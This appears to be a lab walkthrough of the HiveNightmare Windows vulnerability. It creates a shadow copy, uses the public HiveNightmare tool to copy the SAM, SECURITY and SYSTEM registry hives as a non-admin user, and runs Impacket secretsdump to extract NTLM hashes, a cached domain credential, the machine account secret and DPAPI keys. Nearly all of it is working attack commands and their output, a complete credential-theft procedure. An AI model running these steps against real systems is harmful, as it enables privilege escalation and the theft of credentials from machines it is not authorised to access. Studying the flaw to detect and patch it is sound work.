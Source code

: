 Link : https://github.com/GossiTheDog/HiveNightmare

To work this vulnerability, there should be volume shadow copy in the current system.

To test it we can create shadow copy with wmic

	PS C:\Windows\system32> WMIC.exe shadowcopy call create volume='c:\'
	Executing (Win32_ShadowCopy)->create()
	Method execution successful.
	Out Parameters:
	instance of __PARAMETERS
	{
			ReturnValue = 0;
			ShadowID = "{67A0E469-2D0E-4232-B8D5-644F914B973C}";
	};

List shadow copies

	PS C:\Windows\system32> wmic shadowcopy list brief
	ClientAccessible  ID                                      Imported  InstallDate                NoAutoRelease  NoWriters  Persistent  VolumeName
	TRUE              {67A0E469-2D0E-4232-B8D5-644F914B973C}  FALSE     20210911152644.464288+060  TRUE           TRUE       TRUE        \\?\Volume{7fd4e63d-ccfe-4422-9e9f-d100db8dcbe7}\


	PS C:\Windows\system32> vssadmin list shadows
	vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
	(C) Copyright 2001-2013 Microsoft Corp.

	Contents of shadow copy set ID: {c321fe2f-bd90-4df8-ae21-93fdbdf75117}
	   Contained 1 shadow copies at creation time: 11/09/2021 15:26:44
		  Shadow Copy ID: {67a0e469-2d0e-4232-b8d5-644f914b973c}
			 Original Volume: (C:)\\?\Volume{7fd4e63d-ccfe-4422-9e9f-d100db8dcbe7}\
			 Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
			 Originating Machine: pc-win10.valhalla.local
			 Service Machine: pc-win10.valhalla.local
			 Provider: 'Microsoft Software Shadow Copy provider 1.0'
			 Type: ClientAccessible
			 Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
			 

We will read SAM SYSTEM and SECURİTY file from volume shadow copy 

	PS C:\Users\testuser\Desktop> .\HiveNightmare.exe
	HiveNightmare v0.6 - dump registry hives as non-admin users
	Specify maximum number of shadows to inspect with parameter if wanted, default is 15.
	Running...
	Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
	Success: SAM hive from 2021-09-11 written out to current working directory as SAM-2021-09-11
	Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
	Success: SECURITY hive from 2021-09-11 written out to current working directory as SECURITY-2021-09-11
	Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM
	Success: SYSTEM hive from 2021-09-11 written out to current working directory as SYSTEM-2021-09-11
	Assuming no errors above, you should be able to find hive dump files in current working directory.
	


We will read content of SAM

	┌──(kali㉿kali)-[~/Downloads]
	└─$ secretsdump.py LOCAL -sam SAM-2021-09-11 -system SYSTEM-2021-09-11 -security SECURITY-2021-09-11 
	Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

	[*] Target system bootKey: 0x1275b04c99aa7ea7e5ebcfe2c8925423
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e2920a939049177df3f1c08ae1ff62e4:::
	win10:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	nightmare:1005:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::
	[*] Dumping cached domain logon information (domain/username:hash)
	VALHALLA.LOCAL/testuser:$DCC2$10240#testuser#dba152dcac68179962a74bace63c7336
	[*] Dumping LSA Secrets
	[*] $MACHINE.ACC 
	$MACHINE.ACC:plain_password_hex:a155e8b72d7c54f4c9abb78e414f678e5d966ccf159d9d5a1e942ce2fe47ca1d0e9b155cd28e5aa145837e0afd760311056904b877988a93426294aaf7fccdeb55a0cdbcb94c8885a8c0c9446e5f75d014b5b30329b99aa7f64c6c869d2ca2ee85c5e08421784e02df1a0d04357cedc2e83997a83c049c66c14339c82a4ca8235ee29980f19b9bb0fd566c4600462d5db386633d9b092a8890d1dcbfc09e1934f25904f6dceef6e551e88a87adc267de5be4a7be6841d9015dc350abc3ba937e8fe60f0c5ab26819e21b637268fce4bd48df3dec87aec499094a648317a63b4a1a7a3e6476da6899de13a3bb3c2b53d7
	$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e1a3aa8e003bdca58ba8554c30561bae
	[*] DPAPI_SYSTEM 
	dpapi_machinekey:0x3f8d44197b6f26114a25cf48e48b28b5d84a9cac
	dpapi_userkey:0xb500dcefd1814773d57aa9448861a93cf726ee1f
	[*] NL$KM 
	 0000   7E D9 B8 E8 E9 A4 C5 16  50 D5 66 9A 3A CA 91 5D   ~.......P.f.:..]
	 0010   66 65 99 ED E0 C1 45 CA  44 BF 28 A7 37 A4 DC 35   fe....E.D.(.7..5
	 0020   4E B2 3D 76 00 70 E8 E0  A2 1A A0 5F 59 20 0A 1C   N.=v.p....._Y ..
	 0030   89 D3 DF F9 A9 38 AA 06  20 40 05 42 AE 60 8C CA   .....8.. @.B.`..
	NL$KM:7ed9b8e8e9a4c51650d5669a3aca915d666599ede0c145ca44bf28a737a4dc354eb23d760070e8e0a21aa05f59200a1c89d3dff9a938aa0620400542ae608cca
	[*] Cleaning up... 
